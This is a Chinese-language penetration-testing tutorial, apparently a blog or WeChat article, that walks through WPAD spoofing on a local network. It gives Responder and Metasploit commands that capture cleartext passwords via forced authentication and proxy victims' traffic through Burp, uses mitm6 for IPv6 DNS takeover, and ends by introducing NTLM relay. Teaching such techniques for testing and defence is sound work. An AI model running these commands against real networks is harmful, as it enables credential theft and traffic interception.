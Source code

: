 **攻击手法v1.0**

访问存在的网站 www.chinabaiker.com ,可是不小心打错了一个字母或者多打少打了一个字母，默认会直接跳到搜到引擎上去，或者提示无法访问，比如 www.chinabaikee.com

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0Q7YNklBdvaAiafAsGK6tuu6uIKYtG8T2UYJq3rL2p2auhMsuXKOVawg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:50%;" />

那如果我们伪造wpad服务器的话，首先攻击机执行

responder  -I eth0 -wFb

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0SZICoz2nYJpkb03T8vdeZGS8KJ9Uzn1ouzFSvNVLOJBaG10ZJ0ZXnw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:50%;" />

这里使用-b参数强制使用401认证

客户端访问一个不存在的域名时会跳出登录框

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0f0XlibCcV6HiaUylI5RUibLmiaanpZicF12ugFsiaq4jhZz9H7ibbthXLZ3tw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:50%;" />

输入账号密码以后，我们收到明文账号密码

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I06QYVnnwMFMKRLsDrD4E5FNdMibB0P7X3fB8Sl2cbibnOIT8VuJENFIicg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:50%;" />

**攻击手法v1.1**

利用msf配置burp演示代理抓取客户端流量

攻击机执行

use auxiliary/spoof/nbns/nbns_response

set regex WPAD

set spoofip attackiprun

use auxiliary/server/wpad

set proxy 172.16.127.155

run

打开burp，以下只在非域内但是同一个网络中的机器的firefox成功

![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0R3p1DX0tI5M6avnJuCibXyyINpdLyCxl9ib79XtQL38fK0e6uGZX9acA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

为什么会出现上面的问题呢，实际上是因为MS16-077补丁问题。

利用mitm6让客户端设置我们为ipv6 dns服务器



<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I00K2T9Q7mvSaDY5lISOSY7spUcw2SdXyw3YrGOGSibWs7OCFK1MQibNcg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:50%;" />

wpad成功在chrome上欺骗

<img src="https://mmbiz.qpic.cn/mmbiz_jpg/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0WGSH9BNRttv78ZJaF6K5hg0BCw6Kh5ot5yY3tTsKLfN27icEmanibzCg/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom: 80%;" />

PS：以上成功还是在非域内机器。

**攻击手法v2.0**

上面说了多，最重要的不过还是权限。大家应该知道smb  relay，但是这个漏洞很早就在MS08-068补丁中被修复了。但是这个不妨碍我们在未校验smb签名等情况下进行NTLM-Relay转发。我们执行responder，首先关闭掉smb，给接下来的ntlmrelayx使用。
